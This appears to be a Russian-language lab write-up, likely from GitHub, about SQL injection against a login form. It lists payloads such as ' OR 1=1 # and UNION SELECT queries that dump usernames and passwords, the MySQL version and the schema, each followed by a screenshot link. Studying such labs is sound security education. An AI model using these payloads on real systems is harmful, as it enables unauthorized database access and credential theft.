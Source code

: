 1. Список всех пользователей.
Инъекция: ' OR 1=1 #

![image](https://github.com/user-attachments/assets/be500567-e423-4c57-a012-9e362812fae5)
3. Узнать версию MySQL
Инъекция: ' UNION SELECT @@version, @@version # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/bc405aac-a85a-4cd3-8778-c3b4afcace6e)
4. Узнать пароли всех пользователей
Инъекция: ' UNION SELECT username,password FROM users;

![image](https://github.com/user-attachments/assets/523a0a88-3c0a-4652-b164-69b7ee49dc81)
5. Определить текущего пользователя базы данных
Инъекция: ' UNION SELECT CURRENT_USER(), CURRENT_USER() # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/2efacd00-cf7a-4dff-a4f6-a5287892a37c)
6. Извлечь имена таблиц из схемы базы данных
Инъекция: ' UNION SELECT table_name, table_name FROM information_schema.tables # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/533bd8a5-0105-4ad5-915e-7025aa41ce72)
![image](https://github.com/user-attachments/assets/38ba41ae-c7ba-4d29-a056-366be66cab1f)
![image](https://github.com/user-attachments/assets/105942ec-4130-4701-9c66-9cd26fbb830c)
![image](https://github.com/user-attachments/assets/8868d9d0-0a3b-438a-a764-d198915ae0e2)
![image](https://github.com/user-attachments/assets/9c44a0a9-7192-4999-9340-e975ec2390d2)
7. Получить список столбцов users таблицы
Инъекция: ' UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_name = 'users' # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/c32f533a-1d87-4bd1-9c6b-e14e20d861ed)

